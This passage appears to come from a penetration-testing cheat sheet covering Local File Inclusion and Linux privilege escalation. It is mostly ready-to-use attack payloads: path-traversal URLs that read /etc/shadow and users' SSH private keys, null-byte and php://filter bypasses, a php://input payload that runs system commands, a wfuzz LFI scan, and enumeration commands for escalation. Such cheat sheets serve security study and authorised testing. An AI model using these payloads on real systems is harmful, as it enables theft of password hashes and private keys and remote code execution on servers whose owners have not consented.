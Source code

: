 #### LFI (Local File Inclusion)

**Common Files**

```
/etc/passwd
/etc/shadow
/etc/knockd.conf  // port knocking config
```

**LFI with Wfuzz**

```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt http://url/index.php?page=FUZZ
```

**Basic LFI**

```
http://url/index.php?page=../../../etc/passwd
http://url/index.php?page=../../../etc/shadow
http://url/index.php?page=../../../home/user/.ssh/id_rsa.pub
http://url/index.php?page=../../../home/user/.ssh/id_rsa
http://url/index.php?page=../../../home/user/.ssh/authorized_keys
```

**Null byte (%00)**

```
http://url/index.php?page=../../../etc/passwd%00
```

**php://filter**

```
http://url/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://url/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

**input://**

```
http://url/index.php?page=php://input
# POST DATA: <?php system('id'); ?>
```

***

### Linux Privilege Escalation

#### OS & User Enumeration

```bash
################# User Enumeration #################
whoami
id
sudo -l
cat /etc/passwd
ls -la /etc/shadow

################# OS Enumeration ###################
cat /etc/issue
cat /etc/*-release
cat /proc/version
uname -a
arch
ldd --version

################# Installed tools ##################
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp

```
